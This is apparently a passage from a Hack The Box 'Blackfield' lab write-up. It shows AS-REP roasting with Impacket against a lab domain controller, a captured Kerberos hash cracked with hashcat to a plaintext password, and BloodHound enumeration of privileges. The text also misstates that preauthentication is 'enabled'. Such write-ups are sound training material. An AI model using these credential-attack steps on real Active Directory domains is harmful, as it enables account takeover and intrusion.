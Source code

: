 ```bash
  ACheretei                           D        0  Wed Jun  3 17:47:11 2020
  ACsonaki                            D        0  Wed Jun  3 17:47:11 2020
  AHigchens                           D        0  Wed Jun  3 17:47:11 2020
  AJaquemai                           D        0  Wed Jun  3 17:47:11 2020
  AKlado                              D        0  Wed Jun  3 17:47:11 2020
  AKoffenburger                       D        0  Wed Jun  3 17:47:11 2020
  AKollolli                           D        0  Wed Jun  3 17:47:11 2020
  AKruppe                             D        0  Wed Jun  3 17:47:11 2020
<snip>
```
we found a lot of usernames what we can do, till now we have nothing I thought of doing a brute force but kerberos authentication comes to my mind so let's try it to this usernames
 ```bash
GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.129.62.228
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/local/bin/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
<snip>
$krb5asrep$23$support@BLACKFIELD.LOCAL:5a69595ef29571ede6c80ce7ecf15d21$7adff11d72c1c32df20a07dd5240d84c30bb76bbfb3d26789d48030904ab9f7a53334ab5f3db52531ac78fddf287d3504090d2f6c84101994e963ff5fec6e407189393ee4694774f96bf2d213c3daf057a3804734f860b726b01a84bd2b21719f1d1272c0a156b4d3727cba30519d42e5959ef768125e8d9e60c5315924f8a19cd6f13c62d85cf1877ec8134baf183590355d518fef77bdce3b0af91d93ad946f50a6d2783c0618232a7708bb2aba40536180e8be4f9a240234a67962d23023b644468037b98b752bf2d2a53c150a7759f61eae3c7db2fd804da55a27caf97d3ec0ae36b3d3b10a562108cf5b530747f142a03e4
<snip>
```
and as we see support user have kerberos preauthentication is enabled so let's crack the ticket.
```bash
hashcat -m 18200 support.hash ~/HackTheBox/apps/administrator/rock.txt
<snip>
$krb5asrep$23$support@BLACKFIELD.LOCAL:5a69595ef29571ede6c80ce7ecf15d21$7adff11d72c1c32df20a07dd5240d84c30bb76bbfb3d26789d48030904ab9f7a53334ab5f3db52531ac78fddf287d3504090d2f6c84101994e963ff5fec6e407189393ee4694774f96bf2d213c3daf057a3804734f860b726b01a84bd2b21719f1d1272c0a156b4d3727cba30519d42e5959ef768125e8d9e60c5315924f8a19cd6f13c62d85cf1877ec8134baf183590355d518fef77bdce3b0af91d93ad946f50a6d2783c0618232a7708bb2aba40536180e8be4f9a240234a67962d23023b644468037b98b752bf2d2a53c150a7759f61eae3c7db2fd804da55a27caf97d3ec0ae36b3d3b10a562108cf5b530747f142a03e4
:#00^BlackKnight
```
# Credentield Enemuration
now that we have credentiels let's try to use bloodhound and have a full overview and knowledge about the domain.
```bash
bloodhound-python  -u support -p '#00^BlackKnight' -ns 10.129.62.228 -d blackfield.local -c all
```
after oppenning bloodhound GUI we see that support user have forcechangepassword on audit2020 user.
![Screenshot from 2025-02-17 18-50-04](https://github.com/user-attachments/assets/fe2b1be0-91ce-433a-96d4-9c3db118ef5f)
